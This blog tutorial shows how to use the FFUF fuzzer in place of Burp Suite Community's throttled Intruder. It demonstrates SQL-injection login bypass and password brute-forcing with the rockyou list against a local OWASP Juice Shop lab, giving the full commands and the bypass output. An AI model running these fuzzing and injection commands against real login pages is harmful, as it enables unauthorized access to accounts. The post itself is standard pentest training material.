 ```yaml
---
title:  "Use FFUF to bypass Burp Suite's Intruder attacks delay"
date: 2023-07-25
mathjax: true
layout: post
categories: tutorial
tags: burpsuite ffuf docker webapp
---
```


#### It is possible to use FFUF like alternative to bypass Burp Suite Community Edition's Intruder attacks delay? 

## *The answer is: Yes! you can.*

* * *
 
# PoC

Burp Suite Community Edition is very good to use the Intruder and it allow us to fuzz parameters in a Request. But, we know that if we don't have Burp Suite Professional Edition, Intruder will be slow.

This article explain how you can use FFUF as alternative to bypass the rate limit of Burp Suite Community Edition and so, improve your hacking ;)

# Summary

1. ¿What is FFUF?
2. Usage and examples
3. Conclusion and Final words

* * *

# 1. *¿What is FFUF?*

## FFUF

FFUF is a fast web fuzzer tool written in Go. It's common used for Pentesters to discover subdomains, directories and test multiples parameters of a Web Application. (Example: API fuzzing). 

[![asciicast](https://asciinema.org/a/211350.svg)](https://asciinema.org/a/211350)

You can find and download FFUF from official repo in Github: [https://github.com/ffuf/ffuf](https://github.com/ffuf/ffuf){:target="_blank"}

# 2. *Usage and examples*

First at all you need a request file. It can be generated by yourself or you can copy any request directly from Burp Suite.

*For this example I will test the OWASP Juice Shop application in localhost using Docker.* 

- Download: [https://hub.docker.com/r/bkimminich/juice-shop](https://hub.docker.com/r/bkimminich/juice-shop){:target="_blank"}

![login-portal-owasp-juice-shop](https://i.ibb.co/f24pJ8W/login-portal-owasp-juice-shop.png)

![burp-suite-request](https://i.ibb.co/b6gCTWk/burp-suite-request.png)

We can just copy the text and save as `"request.txt"`.

Once captured the request, we need to set where we want to fuzz the parameters. To do that we can open the request file with nano or vim.

![nano-editing-request](https://i.ibb.co/rkQLdp0/nano-editing-request.png)

I choice set `FUZZEMAIL` and `FUZZPASSWD` to then fuzzing with **FFUF**.

## Time to hack.

Now we can use the request file to fuzzing the parameters, so let's take a review of usage modes:

## Modes

```bash
-mode
Multi-wordlist operation mode. (default: clusterbomb) 
	-sniper
	-pitchfork
	-clusterbomb
```

## Example

```bash
ffuf -request request.txt --request-proto https -mode clusterbomb -w passwords.txt:FUZZPASSWD -w email-list.txt:FUZZEMAIL -u http://127.0.0.1:3000
```

With that command we are fuzzing the request testing each email and password with the payloads to bypass the log in portal.

We gonna try perform a SQL Injection, so we need to encode payloads as URL.

I will use CyberChef to encode and a list of payloads from PayloadsAllTheThings.

- CyberChef online: [https://gchq.github.io/CyberChef/](https://gchq.github.io/CyberChef/){:target="_blank"}

- PayloadsAllTheThings: [https://swisskyrepo.github.io/PayloadsAllTheThingsWeb/](https://swisskyrepo.github.io/PayloadsAllTheThingsWeb/){:target="_blank"}

*On Kali Linux you can install the both with:*

```bash
sudo apt install -y cyberchef payloadsallthethings
```

- List of payloads for SQL Injection: [https://swisskyrepo.github.io/PayloadsAllTheThingsWeb/SQL%20Injection/#authentication-bypass](https://swisskyrepo.github.io/PayloadsAllTheThingsWeb/SQL%20Injection/#authentication-bypass){:target="_blank"}

So copy and encode with CyberChef.

![cyberchef-encoding](https://i.ibb.co/ZKr71Qs/cyberchef-encoding.png)

It is necessary add the recipe "Split" to separate each payload. In the field "Split delimiter" you need to set "%0A". *(See the image above).*

## Fuzzing

- FUZZEMAIL will be all the SQL Injection Payloads.
- FUZZPASSWD will be the classic "rockyou.txt" wordlist.

```bash
> ffuf -request request.txt --request-proto http -mode pitchfork -w /usr/share/wordlists/rockyou.txt:FUZZPASSWD -w /home/hackermater/Labs/Juice\ Shop/email-list.txt:FUZZEMAIL -mc 200 -u http://127.0.0.1:3000
         ____    ____             ____
        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.0.0-dev
________________________________________________

 :: Method           : POST
 :: URL              : http://127.0.0.1:3000/rest/user/login
 :: Wordlist         : FUZZPASSWD: /usr/share/wordlists/rockyou.txt
 :: Wordlist         : FUZZEMAIL: /home/hackermater/Labs/Juice Shop/email-list.txt
 :: Header           : Accept-Language: en-US,en;q=0.5
 :: Header           : DNT: 1
 :: Header           : Cookie: language=en; welcomebanner_status=dismiss
 :: Header           : Sec-Fetch-Dest: empty
 :: Header           : Sec-Fetch-Site: same-origin
 :: Header           : User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
 :: Header           : Accept-Encoding: gzip, deflate
 :: Header           : Referer: http://127.0.0.1:3000/
 :: Header           : Sec-Fetch-Mode: cors
 :: Header           : Host: 127.0.0.1:3000
 :: Header           : Accept: application/json, text/plain, */*
 :: Header           : Content-Type: application/json
 :: Header           : Origin: http://127.0.0.1:3000
 :: Header           : Connection: close
 :: Data             : {"email":"admin@juice-sh.opFUZZEMAIL","password":"FUZZPASSWD"}
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200
________________________________________________

[Status: 200, Size: 799, Words: 1, Lines: 1, Duration: 1582ms]
    * FUZZEMAIL: '--'
    * FUZZPASSWD: qwerty

[Status: 200, Size: 799, Words: 1, Lines: 1, Duration: 2064ms]
    * FUZZEMAIL: '--'%20/%20%22--%22
    * FUZZPASSWD: iloveu

[Status: 200, Size: 799, Words: 1, Lines: 1, Duration: 1842ms]
    * FUZZEMAIL: '--'
    * FUZZPASSWD: adrian

[Status: 200, Size: 799, Words: 1, Lines: 1, Duration: 1827ms]
    * FUZZEMAIL: '--'%20/%20%22--%22
    * FUZZPASSWD: destiny

[WARN] Caught keyboard interrupt (Ctrl-C)
```

*We can check the login bypass on the web:*

![pwned-login-portal](https://i.ibb.co/YyJFJDp/pwned-login-portal.png)

# Conclusion and Final words ;)

This is a simple and powerful way to use an "Intruder" or Fuzzer with FFUF instead the Burp Suite's Intruder from Community Edition with multiples parameters and with whatever encoding you want.

*And finally, here is a useful tip:*

## *Rate limit*

Many times, when you are performing a pentest audit it's required a rate limit for seconds between requests.

```bash
-rate               
Rate of requests per second (default: 0)
```

#### *Example*

```bash
ffuf -request request.txt --request-proto https -mode pitchfork -w passwords.txt:FUZZPASSWD -w usernames.txt:FUZZUSERS -rate 5 

# It will perform 5 requests per seconds
```

Happy Hacking!!

----

## Author: Mateo Fumis 
